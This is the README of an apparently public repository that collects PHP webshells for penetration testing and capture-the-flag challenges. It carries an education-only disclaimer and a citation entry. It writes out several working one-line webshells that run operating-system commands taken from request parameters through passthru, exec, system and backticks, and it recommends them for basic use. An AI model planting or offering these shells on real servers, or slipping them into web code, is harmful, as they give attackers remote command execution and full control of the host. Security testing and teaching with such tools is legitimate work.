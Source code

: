Contributing
============

To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

PHP Webshells
=============

Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge. 

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

FYI
====


For basic features, I recommend one-liners like :

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`

smallest one-liner shell:
===
```
`` is backtick character anything b/w this execute directly. many devs unaware about it.
<?=`$_GET[C]`?>
```

Cite:
=====

```
@software{jacques_pharand_2020_3748072,
  author       = {Jacques Pharand and
                  John Troon and
                  Javier Izquierdo Vera},
  title        = {JohnTroony/php-webshells: Collection CS1},
  month        = apr,
  year         = 2020,
  publisher    = {Zenodo},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}

```
